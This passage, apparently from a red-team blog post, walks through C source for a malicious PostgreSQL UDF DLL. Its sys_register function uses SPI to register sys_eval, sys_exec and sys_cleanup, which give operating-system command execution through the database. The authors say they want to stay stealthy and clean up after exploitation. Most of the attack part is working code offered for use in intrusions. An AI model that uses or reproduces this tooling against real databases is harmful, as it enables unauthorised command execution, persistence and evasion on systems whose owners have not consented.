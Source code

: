 ```c
	free(verData);
	return;
}
...
```
*Source: [main.c][7]*
### Final cherries
On every pentesting or red teaming engagement we always try to be as stealty as possible, and there was something that was blocking us from achieving this goal. Whenever we loaded the UDF module we needed to restart the PostreSQL service to unload the module from memory and be able to delete the file from disk. Another thing that we where doing a lot and we were tired of doing was registering and unregistering the functions on the PostgreSQL, why don't write a function that register them all? And, as we are lazy, also another function that unregister them all. So we were just two functions away from our desired state of fullfiness.
#### Wake up Poly: sys_register()
Our desire was to execute the minimal amount of lines to get all ready for explotation, we now have two functions, but we could implement a lot more, and it will require us to write new SQL queries to register those functions, so the question that arise was: *"why don't do it programatically?"*, and the quest began. After several google searchs and being about to throw the towel we found the desired feature and correct terms: **SPI** (Server Programming Interface), with it the function [*SPI_connect*][8] and [*SPI_exec*][9], with the help of those functions it was just a matter of getting dynamically the DLL path and formating the correct SQL queries to get everything register with just one powerfull function. ***First cherry on top of our Ice Cream!***
```c
...
/*
UDF that use SPI to register all the UDFs in this DLL. This simplify explotation and post explotation cleanup.
Note: In case one or all functions are already registered it will replace them without throwing an error.
See: sys_cleanup(bool)
*/
PGDLLEXPORT Datum sys_register(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(sys_register);
Datum sys_register(PG_FUNCTION_ARGS) {
	char ModulePath[MAX_PATH] = { 0 };
	int result;
	result = 0;
	char *regcmd = NULL;
	int msize = GetModuleFileNameA(hLibModule, ModulePath, MAX_PATH);

	if (msize == 0) {
		PG_RETURN_INT32(result);
	}

	if (SPI_connect() == SPI_OK_CONNECT) {
		int ret;
		elog(NOTICE, "[sys_register] DLL Path '%s'", ModulePath);
		regcmd = (char *)malloc(1024);

		sprintf(regcmd, "CREATE OR REPLACE FUNCTION sys_cleanup(bool) RETURNS int4 AS '%s','sys_cleanup' LANGUAGE c VOLATILE STRICT COST 1", ModulePath);
		elog(NOTICE, "[sys_register] Command:\n%s", regcmd);
		ret = SPI_exec(regcmd, 0);

		sprintf(regcmd, "CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS '%s', 'sys_eval' LANGUAGE c VOLATILE STRICT COST 1", ModulePath);
		elog(NOTICE, "[sys_register] Command:\n%s", regcmd);
		ret = SPI_exec(regcmd, 0);

		sprintf(regcmd, "CREATE OR REPLACE FUNCTION sys_exec(text) RETURNS int4 AS '%s', 'sys_exec' LANGUAGE c VOLATILE STRICT COST 1", ModulePath);
```